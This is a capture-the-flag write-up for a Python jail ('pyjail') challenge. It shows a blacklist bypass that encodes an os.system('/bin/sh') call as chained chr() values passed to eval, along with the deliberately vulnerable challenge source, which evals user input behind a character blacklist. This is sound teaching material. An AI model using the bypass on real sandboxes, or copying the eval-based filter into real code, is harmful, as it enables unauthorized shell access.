

## MISC - nehebkaus trap

In this challenge we had to deal with a `pyjail`.

I first entered a lot of single characters to provoke different error messages.

The application has blacklisted some characters which we cannot use without further ado.

Some characters that play a role in the programming language were allowed, such as the brackets `()`,
or `+`,`-`,`*`.



I looked further to see if we could also use [builtin](https://www.w3schools.com/python/python_ref_functions.asp) functions.


Interesting, we can use `eval()` and `exec()`.

Furthermore, we can also use the `chr()` builtin function.

# Solution

Now the solution came to my mind quite fast.

We take the `eval()` function and pass it a concatenation of `chr()` functions with the charcodes of the characters and form our bypass.

We use the `+` character for the concatenation.

A few lines of Python help us to create the bypass.

```python3
code = "__import__('os').system('/bin/sh')"
bypass = ""

for char in code:
    bypass += 'chr(' + str(ord(char)) + ')' + '+'

print(bypass[:-1])
```

Flag:


# Challenge Code

```python3
!/usr/bin/env python3                                                                                                                       
import sys                                                                                                                                   
import time                                                                                                                                  
                                                                                                                                             
BLACKLIST = ('.', '_', '/', '"', ';', ' ', "'", ',')                                                                                         
                                                                                                                                             
class Color:                                                                                                                                 
  WHITE = '\033[37m'                                                                                                                         
  RED = '\033[31m'                                                                                                                           
  BLUE = '\033[94m'                                                                                                                          
  GREEN = '\033[92m'                                                                                                                         
  BOLD = '\033[1m'                                                                                                                           
                                                                                                                                             
def _print(s):                                                                                                                               
  for c in list(s):                                                                                                                          
    sys.stdout.write(c)                                                                                                                      
    sys.stdout.flush()                                                                                                                       
    time.sleep(0.015)                                                                                                                        
                                                                                                                                             
def banner():                                                                                                                                
  print(f'{Color.RED}{Color.BOLD}'                                                                                                           
        '    __\n'                                                                                                                           
        '   {00}\n'                                                                                                                          
        '   \__/\n'                                                                                                                          
        '   /^/\n'                                                                                                                           
        '  ( (\n'                                                                             
        '   \_\_____\n'                                                                       
        '   (_______)\n'                                                                      
        '  (_________()Ooo.')                                                                 
                                                                                              
  _print(f'{Color.BLUE}\n'                                                                    
         "[ Nehebkau's Trap ]\n"                                                              
         f'{Color.WHITE}\n'                                                                   
         'You are trapped!\n'                                                                 
         'Can you escape?\n')                                                                 
                                                                                              
def loop():                                                                                   
  inp = input('> ')                                                                           
  banned = [c for c in BLACKLIST if c in inp]                                                 
  if len(banned):                                                                             
    print(f'\n{Color.RED}[!] Blacklisted character(s): {banned}{Color.WHITE}\n')              
    return                                                                                    
  print('\n[*] Input accepted!\n')                                                            
  try: eval(inp)                                                                              
  except Exception as e: print(f'Error: {e}\n')                                               
                                                                                              
if __name__ == '__main__':                                                                    
  banner()                                                                                    
  for _ in range(10): loop()                                                                  
  print(f'{Color.RED}[!] The walls crush you!') 
  ```


